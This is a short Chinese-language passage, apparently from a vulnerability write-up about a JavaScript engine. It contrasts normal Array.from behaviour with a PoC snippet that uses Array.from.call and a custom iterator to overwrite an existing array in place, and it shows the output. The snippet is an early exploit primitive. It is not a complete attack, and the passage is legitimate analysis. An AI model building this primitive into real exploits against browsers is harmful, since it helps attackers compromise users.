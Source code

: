 ![IMAGE](/assets/resources/9A0BF36012310FF93E5791C3AB5B2A10.jpg)

也就是说，当我们传进去一个数组，它会再创建一个新的数组返回，并不会影响原来的数组

来看代码，可以看到不会修改传入的数组
```
let array = [1, 2, 3];
let result = Array.from(array, x => x + x);
console.log(array);
console.log(result);

> Array [1, 2, 3]
> Array [2, 4, 6]
```

但是按照Poc里的写法，就可以对原有数组做修改，成功改掉了传入的数组
```
let array = [1, 2, 3];
Array.from.call(function() { return array }, {[Symbol.iterator] : _ => (
    {
        counter : 0,
        max : 10,
        next() {
            let result = this.counter++;
            if (this.counter == this.max) {
                return {done: true};
            } else {
                return {value: result, done: false};
            }
        }
    }
) });
console.log(array);

> Array [0, 1, 2, 3, 4, 5, 6, 7, 8]
```
